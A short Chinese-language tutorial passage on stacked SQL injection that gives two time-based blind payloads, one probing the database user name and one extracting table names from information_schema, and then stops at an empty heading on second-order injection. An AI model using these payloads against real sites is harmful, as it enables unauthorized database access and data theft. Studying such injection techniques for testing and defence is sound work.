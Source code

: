 ## 堆叠查询
堆叠查询就是指可以执行多条语句，多语句之间以分号隔开。即第一条语句是系统自己的语句，当系统执行完自己的sql语句的时候，就会执行第二条语句，而这条语句则是我们的注入语句。这样子数据库就执行了我们自己的sql语句。
如：

```sql
'; select if(substr(user,1,1)='r',sleep(5),1)%23
```


1. 利用堆叠注入获取数据
```
';select if(substr((select table_name from information_schema.tables where table_schma=database() limit 0,1),1,1)='e',sleep(5),1)%23
```


## 二次注入攻击

